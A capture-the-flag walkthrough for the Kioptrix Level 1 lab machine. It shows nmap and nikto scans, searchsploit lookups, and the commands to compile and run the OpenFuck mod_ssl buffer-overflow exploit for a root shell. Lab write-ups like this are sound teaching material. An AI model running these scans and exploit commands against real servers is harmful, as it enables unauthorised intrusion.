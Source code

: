 
# Kioptrix Level 1
1. We need to find the machine IP on our network:

	* ```ip addr show```
 ``` root@kali:~/Desktop# ip addr show
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:e7:ed:ef brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.9/24 brd 192.168.50.255 scope global dynamic noprefixroute eth0
       valid_lft 81286sec preferred_lft 81286sec
    inet6 fe80::20c:29ff:fee7:edef/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever

```

	* From this output we can see on eth0:inet we have ```192.168.50.9/24```
	* Map your local network to find the ip of the Vulnhub Machine
	* ```nmap 192.168.50.9/24```
	* 
 ```
Nmap scan report for 192.168.50.207
Host is up (0.000072s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
1024/tcp open  kdm
MAC Address: 00:0C:29:78:29:0C (VMware)
```

	* Our Vulnhub Machine is ```192.168.50.207
2. Lets take a look at the nmap
	* We see some ports open but first we should take a look at the site since port 80 is open
3. Taking a look at the webpage
	* ![Screenshot][K1homepage]
	* From the basic page we know that this is an Apache server running on Red Hat Linux
	* Clicking on any of the links will take you to an error page like so:
	* ![Screenshot][K1errorpage]
	* We now know it is running ```Apache 1.3.20```
4. Checking if Apache 1.3.20 is vulnerable
	* We're going to see whether 1.3.20 has published exploits using searchsploit which searches [Exploit-db](https://www.exploit-db.com/)
	* Run ```searchsploit Apache```
	* Looking around, I couldn't find anything that I could use
	* We will try to see if ```nikto``` a web server scanner, can give us any more information
	* Run ```nikto -h 192.168.50.207```
	* Taking a look back at the ```searchsploit``` results, we can see that there is an exploit for mod_ssl versions
```root@kali:~# nikto -h 192.168.50.207
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.50.207
+ Target Hostname:    192.168.50.207
+ Target Port:        80
+ Start Time:         2018-04-09 12:50:40 (GMT-4)
---------------------------------------------------------------------------
...
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.0.1j). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 20 item(s) reported on remote host
+ End Time:           2018-04-09 12:51:00 (GMT-4) (20 seconds)
```

* 	* In our previous ```searchsploit``` there was a mod_ssl exploit which we can leverage since we know now that mod_ssl is on 2.8.4

	* ```Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overf | exploits/unix/remote/21671.c```
	* For other searchsploit's, you can get a copy into your current directory by using mirror
	* ```searchsploit -m exploits/unix/remote/21671.c```
	* There are many resources online on how to update OpenFuck.c, but I chose to use [this](https://github.com/gazcbm/openfuck-2017)
5. Exploiting using OpenFuck.c
	* Using the instructions included in the file:
	* ```gcc -o OpenFuck OpenFuck.c -lcrypto```
	* ```./openfuck 0x6b 192.168.50.207 443 -c 50```

ROOTED!